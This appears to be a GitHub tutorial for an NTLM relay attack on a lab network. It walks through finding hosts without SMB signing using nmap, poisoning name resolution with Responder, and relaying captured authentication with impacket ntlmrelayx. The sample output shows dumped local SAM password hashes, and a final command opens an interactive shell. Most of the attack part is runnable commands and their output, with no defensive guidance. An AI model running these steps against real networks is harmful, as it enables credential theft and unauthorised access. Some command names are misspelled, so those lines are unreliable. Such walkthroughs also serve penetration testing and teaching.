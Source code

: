 SMB (Server Message Block) is a protocol used for file shares, printers, and other resources on a network. This common protocol can be abused when an attacker on the same internal network (domain and or subdomain) is actively attempting to capture the NTLM hashes transmitted over the network. Which is then maliciously relayed to a service / server, granting access since the hash is authenticated.

**Requirements:**  
* SMB signing must be disabled or not enforced on the target machine.  
* Target machine should be admin, domain admin or service accounts for maximum effect.
* Responder config files /etc/responsder/Responder.conf must have smb and https turned off, so that captured hashes are not stored but are instead 'relayed'.

![image](https://github.com/user-attachments/assets/d8f8f9fc-6393-4e74-877a-9a0a0731cc97)  

🔴 The reason why these are turned off is to prevent the authentication resposne from being captured, but rather we are attempting to 'relay' them to our targets lists.


1. Firstly identify hosts without SMB signing. 

            nmap --script=smb2-security-mode.nse -p445 10.0.0.0/24 -Pn 
      
![image](https://github.com/user-attachments/assets/52f6904d-f256-467c-9b40-414b011f57c2)

2. Once we have discovered our targets (have SMB signing disabled and not required). Create a targets.txt detailing the targets.

            nano target.txt > add target ips into file

3. Start responsder with the new edited config files.

            responder -I eth0 -dPv

5. Start ntlmrelayx.py or impacket-ntlmrelax.

            impacket-ntlmrelax -tf targets.txt -smb2support

![image](https://github.com/user-attachments/assets/ac597d69-e6d9-4da3-affa-ca352ce13850)  

            [*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
            Administrator:500:aad3b435b51404eeaad3b435b51404ee:fbdcd5041c96ddbd82224270b57f11fc:::
            Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
            DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
            WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:2709e4a8da75eb3a5c72700995058b08:::
            peterparker:1001:aad3b435b51404eeaad3b435b51404ee:fbdcd5041c96ddbd82224270b57f11fc:::
            [*] Done dumping SAM hashes for host: 192.168.64.140
            [*] Stopping service RemoteRegistry
            [*] Restoring the disabled state for service RemoteRegistry
Above figure presents a SAM Dump  

We have succesfully captured the NTLM hash from peterparker with Responder relaying the SAM authentication back to the server using impacket-ntlmrelayx. 

6. Gaining interactive shell with impacket.

            impacket-ntlmrelayx -tf targets.txt -smb2support -i  

![image](https://github.com/user-attachments/assets/dff22fbf-f7e3-4415-bb76-c1f9a7c42541)

